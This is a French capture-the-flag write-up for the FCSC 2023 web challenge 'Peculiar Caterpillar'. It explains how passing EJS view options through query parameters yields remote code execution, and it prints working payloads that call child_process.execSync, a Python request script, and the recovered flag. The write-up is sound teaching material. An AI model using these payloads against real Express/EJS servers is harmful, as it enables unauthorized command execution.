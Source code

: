 ```yaml
---
title: "Peculiar Caterpillar | FCSC 2023"
date: 2023-04-28T12:00:00Z
description: "Voici un writeup complet du challenge Web 'Peculiar Caterpillar' créé par Bitk lors du FCSC 2023"
tags: ["nodejs","rendering","RCE","ejs","injection"]
keywords: ["nodejs", "RCE", "ejs-string"]
---
```

[//]: <> (Wrote By Vozec 28/04/2023)
---

# Introduction

```
Alors qu'elle se promenait au Pays des merveilles, Alice tomba sur une chenille étrange. À sa grande surprise, cette dernière se vantait d'avoir construit son propre site web en utilisant Javascript. Bien que le site semblait simple, Alice ne pouvait s'empêcher de se demander s'il était vraiment sécurisé.
```

Les sources de ce challenge sont fournies :

```bash
public
├── docker-compose.yml
├── Dockerfile
└── src
    ├── index.js
    ├── package.json
    ├── views
    │└── index.ejs
    └── yarn.lock
```

On retrouve 2 choses intéressantes dans ces fichiers:
- `/src/index.js`
- `/src/views/index.ejs`

Le premier fichier est un serveur codé en nodejs:

```js
require("express")().set("view engine", "ejs").use((req, res) => res.render("index", { name: "World", ...req.query })).listen(3000);
```

Le second est une **template html** pour le moteur de template `ejs`:

```html
...
<body>
    <main>
      <div id="bubble">Hello <%= name %></div>
    </main>
  </body>
...
```

# Première approche du challenge.

Le serveur renvoie notre `name` passé en paramètre de la requète GET;

```js
res.render("index", { name: "World", ...req.query })
```

Ainsi nous obtenons la page suivante sur https://peculiar-caterpillar.france-cybersecurity-challenge.fr/?name=vozec:  

![Alt text](./img/1.png)

Regardons maintenant comment fonctionne le code de `ejs` [ici](https://github.com/mde/ejs/blob/main/lib/ejs.js)

On a à la ligne *415*:

```js
exports.render = function (template, d, o) {
  var data = d || utils.createNullProtoObjWherePossible();
  var opts = o || utils.createNullProtoObjWherePossible();

  // No options object -- if there are optiony names
  // in the data, copy them to options
  if (arguments.length == 2) {
    utils.shallowCopyFromList(opts, data, _OPTS_PASSABLE_WITH_DATA);
  }

  return handleCache(opts, template)(data);
};
```

D'après l'article de [mizu](https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce), la fonction `createNullProtoObjWherePossible` ne semble pas vulnérable à des attaques SSPP sur les nouveaux objets crées.

![Alt text](./img/meme1.jpg)

# From SSPP to RCE.

Comme expliqué dans ce même article, nous devons nous intéresser à [cette fonction](https://github.com/mde/ejs/blob/f818bce2a5b72866f205c9284e8257f2b155aa66/lib/ejs.js#L571) qui a pour but de compiler une fonction pour évaluer la template html:

```js
compile: function () {
    /** @type {string} */
    var src;
    /** @type {ClientFunction} */
    var fn;
    var opts = this.opts;
    var prepended = '';
    var appended = '';
    /** @type {EscapeCallback} */
    var escapeFn = opts.escapeFunction;
    /** @type {FunctionConstructor} */
    var ctor;
    /** @type {string} */
    var sanitizedFilename = opts.filename ? JSON.stringify(opts.filename) : 'undefined';

   ...

   if (opts.compileDebug) {
      src = 'var __line = 1' + '\n'
        + '  , __lines = ' + JSON.stringify(this.templateText) + '\n'
        + '  , __filename = ' + sanitizedFilename + ';' + '\n'
        + 'try {' + '\n'
        + this.source
        + '} catch (e) {' + '\n'
        + '  rethrow(e, __lines, __filename, __line, escapeFn);' + '\n'
        + '}' + '\n';
    }
    else {
      src = this.source;
    }

    if (opts.client) {
      src = 'escapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
      if (opts.compileDebug) {
        src = 'rethrow = rethrow || ' + rethrow.toString() + ';' + '\n' + src;
      }
    }  
  ...
}
```

[Ce second article](https://eslam.io/posts/ejs-server-side-template-injection-rce/#the-rce-exploit-) nous présente une ancienne méthode pour RCE dans cette fonction. En effet, ce code ci était présent:

```js
prepended +=
    '  var __output = "";\n' +
    '  function __append(s) { if (s !== undefined && s !== null) __output += s }\n';
if (opts.outputFunctionName) {
    prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
}
```

Il suffisait alors d'injecter dans `opts.outputFunctionName` ce type de payload pour avoir une rce directe:

```js
var x;process.mainModule.require('child_process').execSync('touch /tmp/pwned');s= __append;
```

Ce code n'est plus d'actualité mais aujourd'hui nous avons ceci:

```js
if (opts.client) {
  src = 'escapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
  if (opts.compileDebug) {
    src = 'rethrow = rethrow || ' + rethrow.toString() + ';' + '\n' + src;
  }
}
```

Il se trouve que si `opts.client` est passé à `True`, notre paramètre `escapeFn` est placé dans la définition de la fonction `escapeFn`. Cette fonction étant appelée pour tous nos paramètres. Il serait intéressant de re-définir cette fonction pour qu'elle exécute son premier argument.

Nous devons donc:
  - passer `opts.client` à *true*
  - ré-écrire la fonction **escapeFn**
  - envoyer `name` qui sera évalué par notre fonction modifiée est qui sera éxecutée comme commande sur le serveur.

J'ai écris ce script pour envoyer efficacement mes paramètres au serveur:

```python
import requests
import html

url = 'https://peculiar-caterpillar.france-cybersecurity-challenge.fr'

def send(param):
    uri = '%s?%s'%(url,param)
    print('[+] Url params:')
    print('\t%s'%(param))
    print('[+] Final url: %s'%(uri))
    r = requests.get(uri).text
    try:
        r = html.unescape(r.split('div id="bubble">')[1].split('</div>')[0])
    except:
        r = html.unescape(r)
    return '\n[+] Result:\n\t%s'%(r)

param = f'''
param1=value1
...
name=vozec
'''[1:-1]

param = '&'.join(param.split('\n'))
print(send(param))
```

On peut aller chercher l'objet `viewOpts` en utilisant la clé `view options` pour modifier la configuration. On va ici remplacer **escapeFunction** par la fonction **execSync** présente dans le module `child_process`.
*(on ajoute ;// pour commenter le reste de la ligne)*

```python
param = f'''
debug=true
settings[view%20options][client]=true
settings[view%20options][escapeFunction]=global.process.mainModule.require('child_process').execSync;//
name=cat flag*
'''[1:-1]
```

*Résultat*:

```bash
[+] Url params:
    debug=true&settings[view%20options][client]=true&settings[view%20options][escapeFunction]=global.process.mainModule.require('child_process').execSync;//&name=cat flag*
[+] Final url: https://peculiar-caterpillar.france-cybersecurity-challenge.fr?debug=true&settings[view%20options][client]=true&settings[view%20options][escapeFunction]=global.process.mainModule.require('child_process').execSync;//&name=cat flag*

[+] Result:
    Hello FCSC{232448f3783105b36ab9d5f90754417a4f17931b4bdeeb6f301af2db0088cef6}
```

![Alt text](./img/2.png)

# Réferences:
- https://blog.yeswehack.com/talent-development/server-side-prototype-pollution-how-to-detect-and-exploit/
- https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce#final_poc
- https://eslam.io/posts/ejs-server-side-template-injection-rce/
- https://security.snyk.io/vuln/SNYK-JS-EJS-2803307

![Alt text](./img/Babar_Is_The_King.png)
